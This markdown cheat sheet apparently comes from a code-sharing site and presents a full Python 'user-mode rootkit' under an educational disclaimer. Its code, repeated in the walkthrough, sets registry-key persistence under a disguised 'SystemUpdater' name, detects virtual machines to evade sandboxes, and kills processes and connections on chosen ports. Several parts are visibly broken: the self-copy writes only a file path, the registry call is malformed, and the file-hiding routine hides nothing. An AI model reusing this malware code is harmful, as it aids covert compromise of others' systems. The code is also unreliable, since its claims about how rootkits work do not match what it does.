 > ⚠️ **Disclaimer**: This code is for educational purposes only. Rootkits are highly invasive and can severely compromise a system’s security. Testing rootkit techniques should only be done in a controlled, isolated lab environment with proper authorization. Unauthorized deployment of rootkits is illegal and unethical.

# Rootkit Cheat Sheet (For Educational Purposes)

This cheat sheet provides an educational guide to a **Python-based User-mode Rootkit**. Rootkits enable attackers to hide processes, files, and network connections on a compromised system, granting persistent access while avoiding detection.

---

## Rootkit Overview

A **Rootkit** is designed to:
- **Hide Malicious Processes**: Make malicious processes invisible to system monitoring tools.
- **Conceal Files and Directories**: Prevent targeted files and directories from being displayed.
- **Evade Detection**: Operate covertly, evading security software and system administrators.
- **Persist**: Remain hidden even after system reboots, often via startup scripts or driver modules.

---

## Key Features in This Rootkit

1. **Process and File Hiding**: Uses low-level system functions to intercept and filter results.
2. **Automatic Dependency Installation**: Installs Python modules if they’re missing.
3. **Network Connection Concealment**: Hides network connections based on specific ports or IPs.
4. **Persistence**: Sets up automatic execution on startup.
5. **Anti-Analysis Evasion**: Detects virtualized environments to avoid sandboxing.

---

## Advanced Python Rootkit Code (User-mode)

This example rootkit script operates at the user level using Python and **ctypes** to intercept API calls. The rootkit hides specified files, directories, and processes.

### Full Rootkit Code

```python
import os
import sys
import time
import ctypes
import subprocess
import tempfile

# Automatic dependency installation
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])

# Ensure necessary modules are installed
install_module("psutil")
import psutil

# Configuration for hiding
HIDE_PROCESSES = ["malicious_process.exe"]
HIDE_FILES = ["hidden_file.txt", "sensitive_directory"]
HIDE_PORTS = [4444, 5555]  # Replace with ports to hide
HIDE_IPS = ["192.168.1.100"]

# Anti-analysis evasion delay
time.sleep(10)

# Check if running in a virtual environment
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check

# Function to hide specific processes
def hide_processes():
    for proc in psutil.process_iter(['name']):
        try:
            if proc.info['name'] in HIDE_PROCESSES:
                proc.terminate()
        except (psutil.NoSuchProcess, psutil.AccessDenied):
            pass

# Function to hide files and directories
def hide_files_and_directories():
    for root, dirs, files in os.walk("/"):
        # Remove hidden files and directories from lists
        dirs[:] = [d for d in dirs if d not in HIDE_FILES]
        files[:] = [f for f in files if f not in HIDE_FILES]
        print(f"Scanned {root}")  # This would be removed in a real rootkit to avoid detection

# Network connection hiding
def hide_network_connections():
    for conn in psutil.net_connections():
        if conn.laddr.port in HIDE_PORTS or conn.raddr and conn.raddr.ip in HIDE_IPS:
            conn_pid = conn.pid
            try:
                proc = psutil.Process(conn_pid)
                proc.terminate()
            except (psutil.NoSuchProcess, psutil.AccessDenied):
                pass

# Persistence setup (Adding to startup)
def add_persistence():
    try:
        temp_dir = tempfile.gettempdir()
        persistence_script = os.path.join(temp_dir, "system_updater.py")
        with open(persistence_script, "w") as f:
            f.write(sys.argv[0])  # Write a copy of the rootkit script to startup

        # Windows registry startup entry
        key = r"Software\Microsoft\Windows\CurrentVersion\Run"
        value_name = "SystemUpdater"
        ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, persistence_script)
        print("[*] Persistence established via registry key.")
    except Exception as e:
        print(f"[!] Persistence setup failed: {e}")

# Run rootkit functions
def start_rootkit():
    # Avoid running in virtual environments
    if is_virtual_environment():
        print("[!] Virtual environment detected. Exiting.")
        sys.exit(1)

    # Add rootkit to startup for persistence
    add_persistence()

    # Main loop for rootkit functions
    while True:
        hide_processes()
        hide_files_and_directories()
        hide_network_connections()
        time.sleep(5)  # Run at regular intervals

# Run rootkit
if __name__ == "__main__":
    start_rootkit()
```

---

## Explanation of Key Components

### 1. **Automatic Dependency Installation**

The `install_module()` function installs required dependencies if they are missing, using `pip`. The `psutil` library is necessary for interacting with system processes and network connections.

```python
def install_module(module_name):
    try:
        __import__(module_name)
    except ImportError:
        print(f"[*] Installing {module_name} module...")
        subprocess.check_call([sys.executable, "-m", "pip", "install", module_name])
```

### 2. **Process Hiding**

This function iterates through running processes and hides those that match specific names by terminating them. In more advanced rootkits, system calls would be intercepted to hide processes without killing them.

```python
def hide_processes():
    for proc in psutil.process_iter(['name']):
        if proc.info['name'] in HIDE_PROCESSES:
            proc.terminate()
```

### 3. **File and Directory Hiding**

The script removes specified directories and files from directory listings. A real rootkit would likely hook system calls directly to prevent these files from appearing, but this Python example filters them from the list.

```python
def hide_files_and_directories():
    for root, dirs, files in os.walk("/"):
        dirs[:] = [d for d in dirs if d not in HIDE_FILES]
        files[:] = [f for f in files if f not in HIDE_FILES]
```

### 4. **Network Connection Hiding**

This function hides network connections on specific ports or IPs by terminating associated processes.

```python
def hide_network_connections():
    for conn in psutil.net_connections():
        if conn.laddr.port in HIDE_PORTS or conn.raddr and conn.raddr.ip in HIDE_IPS:
            conn_pid = conn.pid
            proc = psutil.Process(conn_pid)
            proc.terminate()
```

### 5. **Persistence Mechanism**

The script copies itself to a temporary directory and adds a registry entry to launch on startup. This ensures it will run each time the system reboots.

```python
def add_persistence():
    temp_dir = tempfile.gettempdir()
    persistence_script = os.path.join(temp_dir, "system_updater.py")
    with open(persistence_script, "w") as f:
        f.write(sys.argv[0])

    key = r"Software\Microsoft\Windows\CurrentVersion\Run"
    value_name = "SystemUpdater"
    ctypes.windll.advapi32.RegSetValueExW(ctypes.windll.advapi32.HKEY_CURRENT_USER, key, 0, 1, value_name, persistence_script)
```

### 6. **Anti-Analysis Evasion**

The rootkit detects if it is running in a virtualized environment and exits if certain indicators are found.

```python
def is_virtual_environment():
    vmware_check = "VMware" in subprocess.getoutput("systeminfo")
    virtualbox_check = "VirtualBox" in subprocess.getoutput("systeminfo")
    return vmware_check or virtualbox_check
```

---

## Security and Legal Disclaimer

This rootkit script is strictly for educational purposes and should only be used in a controlled, isolated lab environment. Unauthorized use or deployment of rootkits is illegal and unethical.

```

